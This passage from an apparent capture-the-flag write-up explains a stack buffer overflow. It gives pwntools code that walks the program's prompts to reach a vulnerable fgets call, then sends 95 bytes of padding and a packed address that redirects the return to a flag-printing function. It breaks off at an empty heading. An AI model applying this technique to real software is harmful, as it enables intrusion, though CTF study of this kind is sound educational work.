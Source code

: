 ## Triggering Vulnerable `fgets()`

```python
for i in range(4):
        p.sendlineafter(b'? ', answer(i + 1))      # first passing 0 to the function will result in not executing the get_some_data() the rest 3 will execute the fget() 
p.sendlineafter(b'? ', b'0')
```

- The first `0` skips execution for the first function.
- Remaining numbers execute subsequent functions until reaching the vulnerable `has_bof`

**Buffer details:**

- The vulnerable function has a buffer of `87` bytes:

```c
char s[87];
fgets(s, N, stdin);
```

- Exploit goal: overwrite the **saved return address**.

---

## Crafting the Payload

```python
offset = 95
junk = b'A' * offset
print_flag_addr = 0x08048656
payload = junk + p32(print_flag_addr)
```

- `offset = 95`: determined via `cyclic` in GDB — distance from buffer start to saved return address.
- `junk = b'A' * 95`: fills buffer + saved EBP.
- `p32(print_flag_addr)`: overwrites return address with the function that prints the flag.

---

### Padding for Alignment

```python
p.sendlineafter(b'? ', b'0' + b' ' * 8 + payload)
```

- `b'0'`: argument for `get_some_data()`.
- `b' ' * 8`: **stack alignment / padding** to ensure payload lands exactly at return address.
- `payload`: actual overflow that triggers `print_flag()`.


---

## Exploit Execution
